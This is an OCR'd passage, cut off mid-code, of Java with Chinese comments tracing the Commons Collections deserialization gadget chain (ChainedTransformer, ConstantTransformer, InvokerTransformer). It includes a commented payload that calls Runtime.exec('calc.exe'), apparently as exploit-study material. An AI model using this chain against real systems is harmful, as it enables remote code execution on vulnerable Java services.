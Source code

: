 ```java
}

protected Object transformKey(Object object) {
    if (keyTransformer == null) {
        return object;  
    }
    return keyTransformer.transform(object);
}

protected Object transformValue(Object object) {
    if (valueTransformer == null) {
        return object;
    }
    return valueTransformer.transform(object);
}
```

```java
// 来到了transformerChain.transform(value)
// Transformer transformerChain = new ChainedTransformer(transformers);
// transformerChain.transform(value)遍历调用了数组transformers中的元素的方法transform
public class ChainedTransformer implements Transformer, Serializable {
    // ......
    public ChainedTransformer(Transformer[] transformers) {
        super();
        iTransformers = transformers;
    }
    // Transformer是一个接口,只有一个待实现的方法transform
    public Object transform(Object object) {
            for (int i = 0; i < iTransformers.length; i++) {
                object = iTransformers[i].transform(object);
            }
            return object;
        }
    // ......
}
```

```java
// 再来到数组transformers
/* Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer("exec", new Class[]{String.class},
                        new Object[]
                                {"calc.exe"}),
        };*/
// new ConstantTransformer(Runtime.getRuntime())
public class ConstantTransformer implements Transformer, Serializable {
    // ...
     public ConstantTransformer(Object constantToReturn) {
        super();
        iConstant = constantToReturn;
    }
    public Object transform(Object input) {
        return iConstant;
    }
    // ...
}
// new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
public class InvokerTransformer implements Transformer, Serializable {
    // ...
    public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
        super();
        iMethodName = methodName;
```